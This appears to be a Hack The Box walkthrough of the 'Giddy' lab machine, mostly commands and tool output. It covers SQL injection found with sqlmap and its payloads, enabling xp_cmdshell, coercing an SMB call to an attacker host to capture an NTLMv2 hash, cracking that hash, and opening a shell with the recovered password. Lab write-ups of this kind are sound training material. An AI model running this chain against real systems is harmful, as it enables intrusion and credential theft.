



# 12 - MVC


# Index page


Product links have an interesting parameter.  Let's play around with it.


# Parameter ProductSubCategoryId



# SQLi 


This error is an indication that sql query is failing because it becomes invalid with "`ProductSubCategoryId=--`". There is definitely sql injection happening in there, we can test it by passing "`18--`" as value(-- simply comments out the rest of the query). In general I would do "`18'--`" but in our case 18 is a number not a string. Instead of doing manual sqli, we can automate it by running sqlmap for faster and better results.

# SQLmap

```bash
┌─[user@parrot]─[10.10.14.9]─[~/htb/giddy]                                                                                                                                                    
└──╼ $ sqlmap -r request.req  --batch --sql-shell --force-dbms mssql --level 5 --risk 3 --flush-session
GET parameter 'ProductSubCategoryId' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N                                                                                  
sqlmap identified the following injection point(s) with a total of 71 HTTP(s) requests:                                                                                                       
---                                            
Parameter: ProductSubCategoryId (GET)                                                          
    Type: boolean-based blind                                                                  
    Title: AND boolean-based blind - WHERE or HAVING clause                                                                                                                                   
    Payload: ProductSubCategoryId=18 AND 4290=4290                                             
                                                                                               
    Type: inline query                                                                         
    Title: Generic inline queries                                                                                                                                                             
    Payload: ProductSubCategoryId=(SELECT CONCAT(CONCAT(CHAR(113)+CHAR(98)+CHAR(98)+CHAR(122)+CHAR(113),(CASE WHEN (4512=4512) THEN CHAR(49) ELSE CHAR(48) END)),CHAR(113)+CHAR(120)+CHAR(98)+
CHAR(122)+CHAR(113)))                                                                          
                                               
    Type: error-based                                                                          
    Title: Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)
    Payload: ProductSubCategoryId=18 AND 3852 IN (SELECT (CHAR(113)+CHAR(98)+CHAR(98)+CHAR(122)+CHAR(113)+(SELECT (CASE WHEN (3852=3852) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(120)
+CHAR(98)+CHAR(122)+CHAR(113)))                                                                                                                                                               
                                                                                                                                                                                              
    Type: stacked queries                                                                      
    Title: Microsoft SQL Server/Sybase stacked queries (comment)                               
    Payload: ProductSubCategoryId=18;WAITFOR DELAY '0:0:5'--                                                                                                                                  
                                                                                               
    Type: time-based blind                                                                     
    Title: Microsoft SQL Server/Sybase time-based blind (IF)                                                                                                                                  
    Payload: ProductSubCategoryId=18 WAITFOR DELAY '0:0:5'                                                                                                                                    
                                                                                                                                                                                              
    Type: UNION query                                                                                                                                                                         
    Title: Generic UNION query (NULL) - 25 columns                                                                                                                                            
    Payload: ProductSubCategoryId=18 UNION ALL SELECT NULL,CHAR(113)+CHAR(98)+CHAR(98)+CHAR(122)+CHAR(113)+CHAR(117)+CHAR(86)+CHAR(101)+CHAR(73)+CHAR(75)+CHAR(87)...
```


Seeing stacked queries in payload types is a relief because statements like *xp_cmdshell* requires stacked queries. That means we should be able to execute code. Additionally, we can grab the hash of the user with responder.


# SQL Shell
```bash
sql-shell> sp_configure 'show advanced options', '1'
sql-shell> RECONFIGURE
sql-shell> sp_configure 'xp_cmdshell', '1'
sql-shell> RECONFIGURE
sql-shell> exec master..xp_dirtree '\\10.10.14.14\'
[14:30:33] [INFO] executing SQL data execution statement: 'exec master..xp_dirtree '\\10.10.14.14\''
exec master..xp_dirtree '\\10.10.14.14\': 'NULL'
```


# Responder
```bash
[+] Listening for events...

[SMB] NTLMv2-SSP Client   : 10.10.10.104
[SMB] NTLMv2-SSP Username : GIDDY\Stacy
[SMB] NTLMv2-SSP Hash     : Stacy::GIDDY:16c3b601aba65896:B8C1C068C0A5A508F59615EB0804C7F7:0101000000000000808289743794D701EDA00AC7450C027F0000000002000800530031005400560001001E00570049004E002D0050004F0037004F004C004D00580031004E0033004D0004003400570049004E002D0050004F0037004F004C004D00580031004E0033004D002E0053003100540056002E004C004F00430041004C000300140053003100540056002E004C004F00430041004C000500140053003100540056002E004C004F00430041004C0007000800808289743794D7010600040002000000080030003000000000000000000000000030000004046C40298E004C1864880BBD7F441ACACD66BB5671D0151E100A63040A55650A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E0031003400000000000000000000000000
[*] Skipping previously captured hash for GIDDY\Stacy
```


# Cracked
```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/giddy]
└──╼ $ john hash   -w=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:13 11.88% (ETA: 14:37:35) 0g/s 144620p/s 144620c/s 144620C/s danmian..daniel2010
xNnWo6272k7x     (Stacy)
1g 0:00:00:18 DONE (2021-08-18 14:36) 0.05376g/s 144571p/s 144571c/s 144571C/s xabat..x9831915x
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed
```

* Stacy:xNnWo6272k7x

# Shell
```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/giddy]
└──╼ $ evil-winrm -i 10.10.10.104 -u Stacy -p 'xNnWo6272k7x'

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Stacy\Documents> 
```